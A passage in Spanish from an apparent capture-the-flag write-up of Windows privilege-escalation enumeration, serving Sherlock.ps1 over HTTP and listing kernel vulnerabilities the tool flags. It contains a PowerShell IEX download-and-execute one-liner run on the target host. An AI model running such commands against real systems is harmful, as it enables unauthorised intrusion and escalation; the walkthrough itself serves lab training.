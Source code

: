 Abrimos el archivo `Sherlock.ps1` y al final de todo, agregamos la siguiente linea `Find-AllVulns`. Ahora si estamos listos para hacer enumeración del sistema. Nos compartimos un servidor HTTP con python:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [08/Oct/2021 01:09:37] "GET /Sherlock.ps1 HTTP/1.1" 200 -
```

Ejecutamos la siguiente linea en la máquina víctima:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/Sherlock.ps1')
PS C:\Windows\Temp\Privesc>
```

Esperamos un poco a que la herramienta haga su trabajo y nos reporte la información.

```bash
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015                                           
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems           
                                
Title      : Task Scheduler .XML 
MSBulletin : MS10-092                                           
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable                                 
                                                                
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                                           
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems           
                                
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                                           
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems                                                                                     
                                
Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113                                          
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable
          
Title      : ClientCopyImage Win32k 
MSBulletin : MS15-051      
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
                                
Title      : Font Driver Buffer Overflow                                           
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable
Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems
```